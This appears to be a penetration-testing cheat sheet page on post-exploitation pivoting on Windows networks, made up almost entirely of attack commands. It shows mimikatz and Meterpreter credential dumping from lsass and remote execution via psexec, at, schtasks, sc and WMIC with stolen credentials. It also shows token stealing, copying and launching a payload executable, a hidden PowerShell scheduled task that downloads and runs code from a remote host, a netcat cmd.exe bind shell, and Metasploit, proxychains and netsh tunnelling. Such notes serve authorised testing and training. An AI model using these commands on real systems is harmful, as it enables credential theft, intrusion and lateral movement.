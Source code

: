 ```yaml
---
title: Pivot
category: Post-Exploitation
order: 97
---
```


> **WINDOWS Remote Commands with Creds or Hash** 

Get Plain Text Passwords and Hashes | <code> mimikatz # privilege::debug <br> mimikatz # inject::process lsass.exe sekurlsa.dll <br> mimikatz # @getLogonPasswords </code>
Get Plain Text Passwords and Hashes | <code> meterpreter>  load kiwi </br> meterpreter > creds_all </code>
psexec (requires install, creates service on target) | <code> psexec \\[tartgetIP] [-d] [-u user]  [-p password] [command] [-s for system] [-d for disconnected like netcat] </code>
Metasploit  psexec (writes executable, creates a service with system privs, automatically removes service and executable) | <code> msf > use exploit/windows/smb/psexec <br> msf > set PAYLOAD [payload] <br> msf > set RHOST [tartget] <br> msf > set SMBUser [admin_username] <br> msf > set SMBPass [admin_password_or_hash] </code>
at <br> windows 7 and lower <br> all commands at SYSTEM | <code> net use \\[targetIP] [password] /u:[admin_user] <br> sc \\[targetIP] query schedule (*make sure it is running*) <br> #if it isnt running <br> sc \\[targetIP] start schedule* <br> at [\\targetIP] [HH:MM] [A|P] [command] <br> at \\[machine] [time] cmd /c ""[command]"" <br> at \\[targetIP} (*check status*)" </code> 
schtasksStart | Time - HH:MM:SSFrequency: MINUTE, HOURLY, DAILY, ONCE, ONSTART, ONLOGON, ONIDLE <br> <code> net use \\[targetIP] [password] /u:[admin_user] <br> sc \\[targetIP] query schedule (*make sure it is running*) <br> *sc \\[targetIP] start schedule* <br> schtasks /creat /tn [taskname] /s [targetIP] /u [user] /p [password] /sc [frequency]  /st [starttime] /sd [startdate] /tr [command] <br> schtasks /query /s [targetIP]" </code>
SC - Runs as SYSTEM | <code> sc \\[targetIP] create netcat binpath= ""cmd.exe /k c:\tools\nc.exe -L -p cmd.exe <br> sc \\[targetIP] start netcat </code>
Metasploit schtasks | <code> meterpreter> run schtasksabuse -c "[command1][,command2].." -t [target IP] </code>
WMIC Invoke Porgram Runs as Admin User | <code> wmic /node:[targetIP] /user:[admin_user] /password:[password] process call create [command] </code>
WMIC on Multiple Machines | <code> /node:@[filename] <br> run a command on multiple machines listed in a file </code>

>**Windows without creds**

{% highlight bash %}
> whoami or sets
> net user [username] /domain

#If you didn't land on an account you want try
meterpreter > use incognito
cobalt strike > Explore Processes and Steal Token
incognito > find_token.exe

#An executable or bat file
> net use \\WIN-K5QAGP4CM7V\C$
> copy C:\wamp64\bin\php\payload.exe \\WIN-K5QAGP4CM7V\C$\Users\PUblic\Music\payload.exe
>  wmic /node:"WIN-K5QAGP4CM7V" process call create "C:\Users\PUblic\Music\payload.exe"

#WMIC and Powershell
> wmic /node:"WIN-K5QAGP4CM7V" process call create "powershell.exe -nop -w hidden -encodedcommand [encodedcommand]"

#Scheduled Task and Powershell
> schtasks /create /tn ScoreBoard /s 10.4.0.100 /tr "C:\windows\system32\WindowsPowerShell\V1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''http://10.128.0.11:8000/page'''))'" /sc MINUTE /st 12:53
{% endhighlight %}

>**Metasploit and Meterpreter**

{% highlight bash %}
meterpreter> ipconfig 
Broadcom 440x 10/100 Integrated Controller - Packet Scheduler Miniport
Hardware MAC: 00:0b:db:1d:d3:2b
IP Address : 192.168.15.3
Netmask : 255.255.255.0

meterpreter > run arp_scanner -r 192.168.15.1/24
[*] ARP Scanning 192.168.15.1/24
[*] IP: 192.168.15.5 MAC d8:d3:85:ff:ff:ff
[*] IP: 192.168.15.5 MAC d8:d3:85:ff:ff:ff

route add 192.168.15.1 255.255.255.0 1

msf exploit(handler) > use auxiliary/scanner/portscan/tcp
msf auxiliary(tcp) > set RHOSTS 192.168.15.1
RHOSTS => 192.168.15.1
msf auxiliary(tcp) > set PORTS 1-1024
PORTS => 1-1024

msf auxiliary(tcp) > use auxiliary/server/socks4a
msf auxiliary(socks4a) > show options
msf auxiliary(socks4a) > set SRVHOST 159.203.173.82
SRVHOST => 159.203.173.82
msf auxiliary(socks4a) > run
{% endhighlight %}

* Proxy Chain Configuration:

{% highlight bash %}
vi /etc/proxychains.conf 
#comment out DNS
#Change sock4 to:
socks4 [IP of Attack Machine] [PORT of attach machine]

proxychains nmap -sT -P0 10.0.0.10

{% endhighlight %}

> **Netcat Relay** 

Relay | <code> Mknod backpipe p <br> nc -l -p [allowed_inbound_port] 0<backpipe | nc 127.0.0.1 22 1>backpipe <br> ssh login@[target] -p [allowed_inbound_port] </code>
Remote Netcat (detached) | <code> nc.exe -d -l -p 4444 -e cmd.exe </code>

> **netsh pivot** 

netsh interface portproxy add v4tov4 listenport=<LPORT> listenaddress=0.0.0.0 connectport=<RPORT> connectaddress=<RHOST>

> **useful resources** 

* [incognito](https://labs.mwrinfosecurity.com/tools/incognito/)
* [powershell token](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-TokenManipulation.ps1)
* [SSH Cheat Sheet](http://pentestmonkey.net/cheat-sheet/ssh-cheat-sheet)
* [Meterpreter Pivot](https://pen-testing.sans.org/blog/2012/04/26/got-meterpreter-pivot)
* [Nessus through Proxy](https://blog.elearnsecurity.com/nessus-and-metasploit-scan-networks-in-pivoting.html)
* [SSH Pivot](http://pwnwiki.io/#!pivoting/linux/index.md)


